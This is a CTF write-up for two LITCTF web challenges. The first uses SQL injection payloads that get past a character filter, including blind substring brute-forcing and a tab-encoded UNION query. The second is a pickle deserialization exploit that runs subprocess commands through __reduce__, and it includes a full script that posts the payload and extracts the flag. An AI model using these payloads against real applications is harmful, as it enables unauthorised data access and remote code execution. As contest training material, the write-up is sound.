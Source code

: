 # LITCTF

## Author: darkmode
## Category: WEB(6/7)

## Alex-fan-club
## Type: sqli

The interface of website 
![1](challAFC.png)
![2](interface.png)

```python
sqli = 1 in [c in param for c in "*-/ |%"]
```
- This challenge filters `*-/ |%`, it has vulnerable here because it only filters
space. We can use tab to replace space


### Solution

I try to use payload `'or(1)or'` and it work (return all result)

First my idea is blind sqli:)), and it is stupid (but it work xD)
```mysql
select * from achievements where achievement like '%'or(substr((SELECT(tbl_name)FROM(sqlite_master)),1,1)='a'or'%'
```
I use burp intruder to brute it, and i get 2 tables:
- `achievements`
- `flag_is_in_here`

But i don't know how to brute column in the table flag_is_in_here

I build the chall in the local and `DB browser` to query `select * from sqlite_master`
and It returns 1 column name `sql` which contains struct of all table.

I continues use burp intruder to brute and I get column `flag_column`
Brute it and we get flag.
`'or(substr((SELECT(flag_column)from(flag_is_in_here)),1,1)='a'or'`
###Solution 2
When i have solved this chall, i realise we can use tab to replace space

Payload look like:

`'union%09select(flag_column)from(flag_is_in_here)union%09select'`



## Alex-fan-club
## Type: pickle deserialization rce

![3](challpickle.png)
This chall use pickle to serialize object, when you create a bio it create a id with your bio

I have read a post write about pickle rce
https://davidhamann.de/2020/04/05/exploiting-python-pickle/

We take advantage from implementing `__reduce__` to get code execution 

I found a payload of pickle rce here:
https://gist.github.com/mgeeky/cbc7017986b2ec3e247aab0b01a9edcd

This chall has filter os and open, so we can't use `os` library to execute

```python
	if pickle_str[:len(dict_prefix)] != dict_prefix or pickle_str[-len(dict_suffix):] != dict_suffix or b"flag" in pickle_str or b"os." in pickle_str or b"open" in pickle_str:
		return "uhoh"
```

i use payload above to create a pickle string, but i use subprocess instead

```python
class easyRight():
    def __reduce__(self):
        import subprocess
        return subprocess.check_output, ("ls", )
		
payload = pickle.dumps({"name": "", "bio": easyRight()})
payload = base64.b64encode(payload)

print("[+] Payload: " + str(payload))
```

In line 36, the pickle_str will be loads, and the endpoint `/new` will return result 
```python
obj = pickle.loads(pickle_str)
```
So send this payload above to `url/new`, we success to RCE

![1](1.png)

Finally code to get flag:
```python
import pickle,base64,requests,re

url = "https://a-flask-of-pickles.litctf.live/"

class easyRight():
    def __reduce__(self):
        import subprocess
        return subprocess.check_output, (["cat","flaskofpickles.py"], )

payload = pickle.dumps({"name": "", "bio": easyRight()})
payload = base64.b64encode(payload)

print("[+] Payload: " + str(payload))

#Post to endpoint /new
_id = requests.post(url + "new", data=payload)
#It'll return id
url_result = url + _id.text

#Get the result
print("[+] Query to url",url_result)
result = requests.get(url_result).text
print(result)
result = "flag{" + re.findall('flag{(.*?)}',result)[0] + "}"
print("[+] Get the result:",result)
```
![2](2.png)
